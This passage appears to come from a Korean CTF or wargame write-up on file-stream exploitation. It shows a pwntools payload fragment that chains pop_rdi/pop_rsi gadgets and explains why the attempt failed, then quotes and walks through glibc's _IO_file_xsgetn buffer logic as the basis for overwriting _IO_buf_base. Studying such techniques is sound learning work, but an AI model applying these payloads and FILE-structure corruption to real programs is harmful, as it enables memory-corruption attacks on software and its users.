 ```python

payload += p64(pop_rdi)
payload += p64(overwrite_me)
payload += p64(pop_rsi)
payload += p64(0xDEADBEEF)
payload += p64(0)

p.send(payload)

p.interactive()
```

<img width="1274" height="470" alt="image (64)" src="https://github.com/user-attachments/assets/493f923f-b1db-4ce6-bcf7-a50197512c25" />

어디서 틀린건지 서칭을 해본 결과 레지스터를 저렇게 바꿔도 fd data n 같은 값은 IO 구조체에 있는 멤버 변수로 가져오는거라고 한다.   
그래서 fd 를 overwrite_me 로 바꾸고 싶었다면 `_IO_buf_base` 를 만졌어야했다…    

<br>
<br>


### 분석 + 다시 시도   

로직을 제대로 살펴보기 위해  _IO_file_xsgetn 함수부 살펴보자  

**_IO_file_xsgetn**

```c
_IO_size_t
_IO_file_xsgetn (_IO_FILE *fp, void *data, _IO_size_t n)
{
  _IO_size_t want, have;
  _IO_ssize_t count;
  _char *s = data;
  want = n;
    ...
	  /* If we now want less than a buffer, underflow and repeat
	     the copy.  Otherwise, _IO_SYSREAD directly to
	     the user buffer. */
	  if (fp->_IO_buf_base
	      && want < (size_t) (fp->_IO_buf_end - fp->_IO_buf_base))
	    {
	      if (__underflow (fp) == EOF)
		break;

	      continue;
	    }
	...
}
```

조건문부터 살펴보면 fp 인 IO 파일 구조체의 IO buf base 가 유효한지 살펴보고   
IO buf 에서 base를 빼서 남은 요청량인 want 가 (n) 내부 버퍼크기보다 작은지 확인한다.  
